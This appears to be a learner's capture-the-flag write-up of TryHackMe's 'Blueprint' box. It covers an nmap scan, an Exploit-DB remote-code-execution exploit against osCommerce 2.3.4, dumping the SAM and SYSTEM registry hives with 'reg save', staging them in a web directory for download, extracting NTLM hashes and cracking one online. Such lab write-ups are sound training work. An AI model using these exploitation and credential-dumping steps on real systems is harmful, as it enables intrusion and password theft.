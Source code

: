 ## TryHackMe - Blueprint Methodology

This is the attack methodology I used for TryHackMe's Blueprint box.
I have based this document on the Intrusion Kill Chain by Lockheed Martin:
Reconnaissance > Weaponization > Delivery > Exploitation > Installation > Command & Control > Actions on Objectve

---
### Environment
#### Operating System
Latest kali-VM rolling update
#### Tools
Python scripts

### Methodology
#### Objectives/Flags
 "Lab" user NTML hash decrypted and root.txt
#### Reconnaissance
First I checked for open ports using a basic nmap scan
```bash
nmap -t4 <TargetIP>
```
```
PORT      STATE    SERVICE
80/tcp    open     http
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
443/tcp   open     https
445/tcp   open     microsoft-ds
512/tcp   filtered exec
1152/tcp  filtered winpoplanmess
1875/tcp  filtered westell-stats
3306/tcp  open     mysql
4662/tcp  filtered edonkey
7741/tcp  filtered scriptview
8080/tcp  open     http-proxy
9010/tcp  filtered sdr
20005/tcp filtered btx
26214/tcp filtered unknown
27000/tcp filtered flexlm0
49152/tcp open     unknown
49153/tcp open     unknown
49154/tcp open     unknown
49158/tcp open     unknown
49159/tcp open     unknown
49160/tcp open     unknown
```
I could see some HTTP open ports and decided to see what was accessible
```
http://<TargetIP>:8080/
  http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
I could determine the framework being used for the commerce page was oscommerce-2.3.4. Using this information I visited Exploit-DB to see what was available.
```
https://www.exploit-db.com/exploits/50128
```
#### Exploitation
Using the remote-code-execution exploit from the DB, the target was attacked
```
python 50128.py http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
Once the attack was successful, I now had RCE shell access into the target.

#### Actions on Objective
I started by trying to determine the nature of the host and explore it's file directories
```
whoami
  nt autheority\system
```
```
DIR C:\users
  Administrator
    C:\users\Administrator\Desktop\root.txt.txt
      more C:\users\Administrator\Desktop\root.txt.txt
        THM{*}
  DefaultAppPool
  Lab
```
The file-system was Windows and exploring userfiles I happend to come accross my first objective ```root.txt.txt```. According to my mentor the filename was done this way to obfuscate it from broad-searches.
My next objective was to locate and extract the NTML hash of the "Lab" user.

I must admit I didn't know what NTML was or where it was found however I had a reasonable understanding through hack-sims that this was going to be a hashed password found somewhere on the system. After some googling I was able to understand that this hash was most likley going to be located in the Windows "SAM" file generally located at ```C:\Windows\system32\config\SAM```. (source: https://security.stackexchange.com/questions/113295/location-of-password-hashes-on-a-windows-local-machine)
```
DIR C:\Windows\system32\config\
```
I could see that the file existed on the system and my goal was to now try and exfiltrate this file/data out of the target to my local machine. I had a lot of trial and error trying to get at this file. Various failures included; printing it's contents, copying it to the visible HTTP directory, Uploading it to a local-http/ftp server.
Eventually I stubled upon a page which explained how this data could be exported from it's registry key. (source: https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)
```
reg save hklm\system system
reg save hklm\sam sam
```
With the data exported out of the system-files I could now move them around without any system-protection. I moved these files to the visible HTTP directory.
```
copy <missing> http://<TargetIP>:8080/oscommerce-2.3.4/docs/
```
From my localhost I was able to save these files. My next step was to dump the hashes out of the files. Using the website I had found earlier I had to find a tool that was going to assit me.
```
python pwdump.py /home/kali/tools/TryHackMe/Blueprint/system /home/kali/tools/TryHackMe/Blueprint/sam
  Administrator:500:<hash>:<hash>:::
  Guest:501:<hash>:<hash>:::
  Lab:1000:<hash>:<hash>:::
```
Success, I've got the hash of the "Lab" user and now needed to decrypt this. I spent some time trying to mess with HashCat to crack it but after some more googling I was directed to Crackstation.
```
https://crackstation.net/
   Insert <hash> -> crack
     <password>
```
I spared my system it's resources and was able to instantly receive the cleartext password.

---
### After-action
#### What I've learned
This was the first "real" box that I've had a go at and had a blast from the whole experience. My mentor had helped me connect the dots on recconaissance and exploitaion through finding online resources/code. Once I was in, a majority of my frustrations was trying to understand what NTML was and more specifically how I was going to extract that information to my localhost. Lastly why burn the computing power when an online service can crack passwords for you?
#### What I would've done differently
Given that this was my first box, I was a bit messy with what I was actually doing on the target Machine. I had rebooted it by attempting to run arbitrary files and possibly executed programs in trial and error.
I definitely would like to record what actions I had taken (including timestamps?) and what failures I had run into for posterity/documenation.
Lastly, I should have spent the extra effort in removing the extracted system files from the export location and even the visible HTTP directory to reduce my footprint.
